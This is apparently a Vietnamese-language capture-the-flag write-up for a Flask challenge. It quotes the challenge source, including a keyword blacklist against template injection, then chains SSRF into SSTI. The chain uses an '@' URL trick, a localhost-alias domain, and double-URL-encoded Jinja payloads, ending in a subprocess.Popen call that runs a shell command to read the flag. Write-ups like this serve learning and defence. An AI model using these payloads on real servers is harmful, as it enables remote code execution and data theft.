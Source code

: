 Lâu lắm rồi mình mới quay lại đánh giải trên ctftime.org

![image](../img/1.1.png)

whitebox nhé ae, truy cập vào thử
![image](../img/1.2.png)

phải view source mới biết được cái gì đang handler

![image](../img/1.3.png)
flag có tên random.txt


```
# app.py


from flask import Flask, request, Response, jsonify, redirect, url_for, render_template_string, abort
from util import is_from_localhost, proxy_req
from flask import request, abort
import random, os

app = Flask(__name__)

# I BLACKLIST EVERY CHAR :)

blacklist = ["debug", "args", "headers", "cookies", "environ", "values", "query",
    "data", "form", "os", "system", "popen", "subprocess", "globals", "locals",
    "self", "lipsum", "cycler", "joiner", "namespace", "init", "join", "decode",
    "module", "config", "builtins", "import", "application", "getitem", "read",
    "getitem", "mro", "endwith", " ", "'", '"', "_", "{{", "}}", "[", "]", "\\", "x"]

def check_forbidden_input(func):
    def wrapper(*args, **kwargs):
        for header, value in request.headers.items():
            for forbidden_str in blacklist:
                if forbidden_str in value:
                    abort(400, f"Forbidden: '{forbidden_str}' not allowed in {header} header")

        for key, value in request.args.items():
            for forbidden_str in blacklist:
                if forbidden_str in value:
                    abort(400, f"Forbidden: '{forbidden_str}' not allowed in URL parameter '{key}'")

        try:
            if request.is_json:
                json_data = request.get_json()
                if json_data:
                    for key, value in json_data.items():
                        for forbidden_str in blacklist:
                            if forbidden_str in value:
                                abort(400, f"Forbidden: '{forbidden_str}' not allowed in JSON request body key '{key}'")
            else:
                body = request.get_data(as_text=True)
                for forbidden_str in blacklist:
                    if forbidden_str in body:
                        abort(400, f"Forbidden: '{forbidden_str}' not allowed in request body")
        except Exception as e:
            pass

        # Call the original function if checks pass
        return func(*args, **kwargs)
    return wrapper

@app.route('/', methods=['GET'])
@check_forbidden_input
def proxy():
    url = request.args.get('url')

    list_endpoints = [
        '/about/',
        '/portfolio/',
    ]

    if not url:
        endpoint = random.choice(list_endpoints)
        # Construct the URL with query parameter
        return redirect(f'/?url={endpoint}')
    
    target_url = "http://daffa.info" + url

    if target_url.startswith("http://daffa.info") and any(target_url.endswith(endpoint) for endpoint in list_endpoints):
        response, headers = proxy_req(target_url)

        return Response(response.content, response.status_code, headers.items())
    else:
        abort(403)

@app.route('/secret', methods=['GET', 'POST'])
@is_from_localhost
def dev_secret():
    admin = "daffainfo"
    css_url = url_for('static', filename='css/main.css')

    if request.args.get('admin') is not None:
        admin = request.args.get('admin')

    if not admin:
        abort(403)

    template = '''<!DOCTYPE html>
        <html lang="en">
        <head>
            <meta charset="UTF-8">
            <meta name="viewport" content="width=device-width, initial-scale=1.0">
            <title>Admin Notes Preview</title>
            <link rel="stylesheet" href="{}">
        </head>
        <body>
            <h1>NOTES!! ONLY ADMIN CAN ACCESS THIS AREA!</h1>
            <form action="" method="GET">
                <label for="admin">Admin:</label>
                <input type="text" id="admin" name="admin" required>
                <br>
                <input type="submit" value="Preview!">
            </form>
            <p>Admin: {}<span id="adminName"></span></p>
        </body>
        </html>'''.format(css_url, admin)
    return render_template_string(template)

app.run(host='0.0.0.0', port=1337)
```

có thể thấy nó sử dụng 1 blacklist chứa 1 loạt các chuỗi chống ssti

tại route `/` nếu không có parameter `url` sẽ mặc định lấy random 1 trong 2 list_endpoints và xử lí code trong đoạn `if not url`, chỗ này không có gì đâu nên mình next nhé

![image](../img/1.4.png)
tại route `/secret` này nhìn vào là biết dính SSTI rồi, ở dòng 102 với 103 đó, nhưng nó đã bị blacklist filter đi, quan sát tất cả attack surface mình cũng chỉ có đi exploit SSTI được thôi

Nhưng trước đó nó check xem request có đến từ localhost hay không. OKEY, `SSRF to SSTI`

### SSRF
Trước hết cần xóa các header không cần thiết đi để bypass blacklist, nó sẽ có dạng như này
![image](../img/1.5.png)

Do ở route `/` dùng startswith nên nếu ta truyên vào 1 url có value khác sẽ phải dùng `@`, mình ví dụ `khiem.com@127.0.0.1:1337` thì url cuối cùng sẽ là `127.0.0.1:1337`

Cuối cùng sẽ có payload dạng như sau: 
![image](../img/1.6.png)

nhưng ở `util.py`
![image](../img/1.7.png)

localhost bị đấm nên cần kiếm payload thay thế, research kiếm được `www.localtest.me`, ngon luôn nhé

### SSTI
Tác giả dùng blacklist chứa khá nhiều từ cấm, nhưng lại méo quan tâm tới encode =))

Tại đây vì URL được decode 2 lần (trước và sau SSRF) nên cần phải encode 2 lần cho server hiểu

payload test: `{%print(().__class__)%}`

sau khi encode 2 lần ta được:
`%257b%2525%2570%2572%2569%256e%2574%2528%2528%2529%252e%255f%255f%2563%256c%2561%2573%2573%255f%255f%2529%2525%257d`
và
![image](../img/1.8.png)

giờ thì lấy index của class có thể exec os là được

payload lấy các class: `{{ ''.__class__.__mro__[1].__subclasses__() }}`

sau khi encode 2 lần: 
`%257b%257b%2520%2527%2527%252e%255f%255f%2563%256c%2561%2573%2573%255f%255f%252e%255f%255f%256d%2572%256f%255f%255f%255b%2531%255d%252e%255f%255f%2573%2575%2562%2563%256c%2561%2573%2573%2565%2573%255f%255f%2528%2529%2520%257d%257d%250a%250a`

và

![image](../img/1.9.png)


tricklor 1 lúc mình lấy được index của class `subprocess.Popen`
![image](../img/1.10.png)

oke giờ thì gọi đến và lấy flag thôi

`{{ ''.__class__.__mro__[1].__subclasses__()[351]('cat /*.txt', shell=True, stdout=-1, stderr=-1).communicate()[0].decode() }}`

![image](../img/1.11.png)

FLAG: `TCP1P{Ch41n1ng_SsRF_pLu5_5St1_ba83f3ff121ba83f3ff121}`
`


